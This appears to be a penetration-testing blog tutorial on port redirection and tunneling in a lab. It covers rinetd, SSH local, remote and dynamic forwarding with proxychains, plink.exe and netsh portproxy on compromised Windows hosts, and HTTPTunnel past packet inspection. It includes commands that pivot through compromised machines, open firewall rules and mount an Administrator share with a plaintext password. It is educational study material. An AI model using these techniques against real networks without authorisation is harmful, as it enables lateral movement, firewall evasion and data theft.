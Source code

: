 ```yaml
---
title: Port Redirection Tunneling 
date: 2023-06-25 22:50:30 +/-TTTT
categories: [Pentesting, Network Pentesting]
tags: [Port Tunneling] 
# image: ../assets/img/network/ssh_tunnel.jpg
image:
  path: /assets/img/network/ssh_tunnel.jpg
#   alt: image alternative text
---
```




## Port Forwarding

Port forwarding is the simplest traffic manipulation technique we will examine in which we redirect traffic destined for one IP address and port to another IP address and port.

| Machine  | Account        |
| -------- | -------------- |
| attacker | kali@ttnho     |
| client1  | ntt@debian     |
| client2  | winserver 2016 |

*Note: kali and debian open port ssh*

### RINETD (use rinetd to redirect any traffic)

> In this fairly-common scenario, our first target, the Linux web server, has Internet connectivity, but the second machine, the Linux client, does not. We were only able to access this client by pivoting through the Internet-connected server. In order to pivot again, this time from the Linux client, and begin assessing other machines on the internal network, we must be able to transfer tools from our attack machine and exfiltrate data to it as needed. Since this client can not reach the Internet directly, we must use the compromised Linux web server as a go-between, moving data twice and creating a very tedious data transfer process.

![](/assets/img/port-redirection-tunneling/image1.png)

Check  access the internet:

```bash
kali@ttnho:~$ ping google.com -c 1
kali@ttnho:~$ nc -nvv 216.58.207.142 80
```
> *Linux client is indeed disconnected from the Internet. In order to transfer files to an Internet-connected host, we must first transfer them to the Linux web server and then transfer them again to our intended destination.Instead, we will use a port forwarding tool called rinetd1 to redirect traffic on our Kali Linux server.*

Install rinetd tool:

```bash
kali@ttnho:~$ sudo apt update && sudo apt install rinetd
```

After install rinetd, configuration file, /etc/rinetd.conf, lists forwarding rules that require four parameters, including *bindaddress - bindport - connectaddress - connectport which define the traffic's destination address and port*

Exam: use rinetd to redirect any traffic received by the Kali web server on port 80 to the google.com IP address we used in our tests. To do this, we will edit the rinetd configuration file and specify the following forwarding rule	0.0.0.0 80 216.58.207.142 80

Check file configuration rinetd:

```bash
kali@ttnho:~$ cat /etc/rinetd.conf
	...
	# bindadress  bindport  connectaddress  connectport
	0.0.0.0 80 216.58.207.142 80
	...
```

Restart rinetd service

```bash
kali@ttnho:~$ sudo service rinetd restart
```

![](/assets/img/port-redirection-tunneling/image2.png)

## SSH Tunneling

### SSH Local Port Forwarding

SSH _local port forwarding_ allows us to tunnel a local port to a remote server using SSH as the transport protocol. The effects of this technique are similar	to rinetd port forwarding, with a few twists

Check config ssh local port forwarding:

```bash
root@ttnho:~$ cat /root/port_forwarding_and_tunneling/ssh_local_port_forwarding.sh
```

SSH Local port forwarding

```bash
kali@ttnho:~$ sudo ssh -N -L [bind_address:]port:host:hostport [username@address]
kali@ttnho:~$ sudo ssh -N -L 0.0.0.0:445:192.168.1.110:445 ntt@10.11.0.128
```

![](/assets/img/port-redirection-tunneling/image3.png)

### SSH Remote Port Forwarding

```bash
ntt@debian:~$ ssh -N -R [bind_address:]port:host:hostport [username@address]
ntt@debian:~$ ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```

![](/assets/img/port-redirection-tunneling/image4.png)

### SSH Dynamic Port Forwarding

> Dynamic port forwarding allows you to create a socket on the local (ssh client) machine, which acts as a SOCKS proxy server. When a client connects to this port, the connection is forwarded to the remote (ssh server) machine, which is then forwarded to a dynamic port on the destination machine. This way, all the applications using the SOCKS proxy will connect to the SSH server, and the server will forward all the traffic to its actual destination.

Dynamic Port Forwarding

```bash
kali@ttnho:~$ ssh -N -D [address_bind]:port_bind [username@<IP_server>]		
kali@ttnho:~$ sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128
```

Modify proxychains config

```bash
kali@ttnho:~$ cat /etc/proxychains.conf
	...
	[ProxyList]
	#add proxy here
	#meanwile
	#defaults set to "tor"
	socks4 127.0.0.1 8080
```

![](/assets/img/port-redirection-tunneling/image5.png)

syntax with proxychains

```bash
kali@ttnho:~$ sudo proxychains nmap --top-port=20 -sT -Pn 192.168.1.10
```

## PLINK.exe

> Assume: we have gained access to a Windows 10 machine during our assessment through a vulnerability. We would like to scan this database or interact with the service. However, because of the firewall, we cannot directly interact with this service from our Kali machine.
=>use plink.exe to connect via SSH (-ssh) to our Kali machine (10.11.0.4) as the kali user (-l kali) with a password of "ilak" (-pw ilak) to create a remote port forward (-R) of port 1234 (10.11.0.4:1234) to the MySQL port on the Windows target (127.0.0.1:3306)

```powershell
c:\nho> plink.exe
c:\nho> plink.exe -ssh -l kali -pw kali -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4

#However, since this will most likely not work with the interactivity level we have in a typical reverse shell, we should pipe the answer to the prompt with the cmd.exe /c echo y command. From our reverse shell, then, this command will successfully establish the remote port forward without any interaction:
c:\nho> cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4

#Now that our tunnel is active, we can attempt to launch an Nmap scan of the target's MySQL port via our localhost port forward on TCP port 1234:
kali@ttnho:~$ sudo nmap -sS -sV 127.0.0.1 -p 1234
```

## NETSH

Require:

+ The windows system must have the IP Helper service running

+ IPv6 support must be enabled for the interface we want to use

Example: we will use the netsh (interface) context to add an IPv4-to-IPv4 (v4tov4) proxy (portproxy) listening on 10.11.0.22 (listenaddress=10.11.0.22), port 4455 (listenport=4455) that will forward to the Windows 2016 Server (connectaddress=192.168.1.110) on port 445 (connectport=445)

Note: payload on the compromised machine

```powershell
c:\Windows\system32> netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110

#Check port 4455 is listening on the compromised windows host
c:\Windows\system32> netstat -anp TCP | find "4455"

#using netsh to allow inbound traffic on TCP port 4455 (default Windows Firewall will disallow inbound connection on TCP port 4455)
c:\Windows\system32>netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow

#connect to compromised windows machine on port 4455 using smbclient
kali@ttnho:~$ sudo nano /etc/samba/smb.conf
kali@ttnho:~$ cat /etc/samba/smb.conf
kali@ttnho:~$ sudo /etc/init.d/smbd restart
kali@ttnho:~$ smbclient -L 10.11.0.22 --port=4455 --user=Administrator

kali@ttnho:~$ sudo mkdir /mnt/win10_share
kali@ttnho:~$ sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty09! /mnt/win10_share
kali@ttnho:~$ ls -l /mnt/win10_share/
kali@ttnho:~$ cat /mnt/win10_share/data.txt
```

## HTTPTunneling through Deep Packet Inspection

Certain deep packet content inspection devices may only allow specific protocols. If, for example, the SSH protocol is not allowed, all the tunnels that relied on this protocol would fail.

![](/assets/img/port-redirection-tunneling/image6.png)

View content of the http_tunneling

```shell
root@debian:~$ cat /root/port_forwarding_and_tunneling/http_tunneling.sh
root@debian:~$ /root/port_forwarding_and_tunneling/http_tunneling.sh
```

Install HTTPtunnel

```shell
kali@ttnho:~$ apt-cache search httptunnel
kali@ttnho:~$ sudo apt install httptunnel
```

Local port forward from debian to windows server remote desktop port

```shell
www-data@debian:/$ ssh -L 0.0.0.0:8888:192.168.1.110:3389 student@127.0.0.1
ntt@debian:~$ ss -antp | grep "8888"
```

Setting up the server component of HTTPTunnel

```shell
ntt@debian:~$ hts --forward-port localhost:8888 1234
ntt@debian:~$ ps aux | grep hts
ntt@debian:~$ ss -antp |grep "1234"
```

Setting up the client component of HTTPTunnel

```shell
kali@ttnho:~$ htc --forward-port 8080 10.11.0.128:1234
kali@ttnho:~$ ps aux | grep htc
kali@ttnho:~$ ss -antp | grep "8080"
```

Check rdp from kali to windows server

```shell
kali@ttnho:~$ rdesktop 127.0.0.1:8080
```